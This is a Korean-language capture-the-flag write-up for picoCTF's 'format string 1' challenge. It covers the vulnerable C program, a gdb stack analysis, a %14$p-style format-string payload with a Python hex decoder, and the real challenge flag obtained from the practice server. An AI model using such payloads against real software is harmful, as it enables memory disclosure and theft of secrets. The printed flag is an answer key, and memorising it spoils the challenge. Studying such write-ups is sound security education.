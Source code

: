 # [format string 1](https://play.picoctf.org/practice/challenge/434?category=6&difficulty=2&originalEvent=73&page=1)

**Description**
> Patrick and Sponge Bob were really happy with those orders you made for them, but now they're curious about the secret menu. Find it, and along the way, maybe you'll find something else of interest!
<br />

**Source Code:**
```c
#include <stdio.h>

int main() {
  char buf[1024];
  char secret1[64];
  char flag[64];
  char secret2[64];

  // Read in first secret menu item
  FILE *fd = fopen("secret-menu-item-1.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-1.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret1, 64, fd);
  // Read in the flag
  fd = fopen("flag.txt", "r");
  if (fd == NULL){
    printf("'flag.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(flag, 64, fd);
  // Read in second secret menu item
  fd = fopen("secret-menu-item-2.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-2.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret2, 64, fd);

  printf("Give me your order and I'll read it back to you:\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your order: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  printf("Bye!\n");
  fflush(stdout);

  return 0;
}

```
<br />

## Exploitation
```bash
$ cat secret-menu-item-1.txt
BBBBBBBB
$ cat flag.txt
pico{this_is_flag}
$ cat secret-menu-item-2.txt
AAAAAAAA
```
위 텍스트 파일 3개를 새로 생성한 후, gdb로 분석하겠습니다.

```yaml
pwndbg> b *main+275
Breakpoint 1 at 0x401309
pwndbg> r
...
Give me your order and I'll read it back to you:
CCCCCCCC
```
`main+275`에 `break` 후 `r`을 하빈다. 입력 값은 `CCCCCCCC`이고, 실행 직후 스택을 확인 해보겠습니다.
```yaml
pwndbg> x/30gx $rsp
0x7fffffffdb60: 0x4141414141414141      0x00007fffffff000a
0x7fffffffdb70: 0x00007fffffffdbb4      0x00007ffff7dcd600
0x7fffffffdb80: 0x00007ffff7fbf6c0      0x0000000000000003
0x7fffffffdb90: 0x00007fff00000000      0x00007ffff7ffe6b0
0x7fffffffdba0: 0x6968747b6f636970      0x616c665f73695f73
0x7fffffffdbb0: 0x00000000000a7d67      0x0000000000000000
0x7fffffffdbc0: 0x0000000000000000      0x00007fffffffdd50
0x7fffffffdbd0: 0x00007ffff7ffe6b0      0x00007ffff7ff287a
0x7fffffffdbe0: 0x4242424242424242      0x00007fffffff000a
0x7fffffffdbf0: 0x000000003de00ec7      0x00007ffff7fd111c
0x7fffffffdc00: 0x0000000000000001      0x00007fffffffdd50
0x7fffffffdc10: 0x0000000000000000      0x0000000000000000
0x7fffffffdc20: 0x4343434343434343      0x00007ffff7ffe300
0x7fffffffdc30: 0x00007ffff7ffe310      0x00007ffff7dd6cd8
0x7fffffffdc40: 0x00007fffffffdc90      0x00007ffff7ffe6b0
```
위에서부터 `0x7fffffffdb60`은 secret1, `0x7fffffffdba0`은 flag, `0x7fffffffdbe0`은 secret2 마지막으로 `0x7fffffffdc20`은 buf 입니다. 따라서 포맷스트링 인자 기준 flag의 오프셋은 14 입니다.
> [!NOTE]
포맷스트링 인자는 출력될 때, `rsi`, `rcx`, `rdx`, `r8`, `r9`, `rsp`, `rsp+8`, `rsp+0x10`, ... 순으로 출력이 됩니다. 따라서 flag의 오프셋은 14인 것입니다.

```bash
$ ./format-string-1
Give me your order and I'll read it back to you:
%14$p|%15$p|%16$p
Here's your order: 0x6968747b6f636970|0x616c665f73695f73|0xa7d67
Bye!
```
출력된 결과를 파이썬 자동화를 통해 아스키로 바꿔보겠습니다.

```python
$ cat test.py
data = "0x6968747b6f636970|0x616c665f73695f73|0xa7d67"
data = data.split("|")

res = ""
for p in data:
    if p.startswith("0x"):
        hex_str = p[2:]
        if len(hex_str) % 2 != 0:
            hex_str = "0" + hex_str
        ascii_str = bytes.fromhex(hex_str)[::-1].decode("latin1", errors="ignore")
        res += ascii_str

print(res)
```
```bash
$ python3 test.py
pico{this_is_flag}
```
<br />

## FLAG
```bash
$ nc mimas.picoctf.net 63454
Give me your order and I'll read it back to you:
%14$p|%15$p|%16$p|%17$p|%18$p
Here's your order: 0x7b4654436f636970|0x355f31346d316e34|0x3478345f33317937|0x34365f673431665f|0x7d363131373732
Bye!
```
```bash
$ python3 test.py
picoCTF{4n1m41_57y13_4x4_f14g_64277116}
```
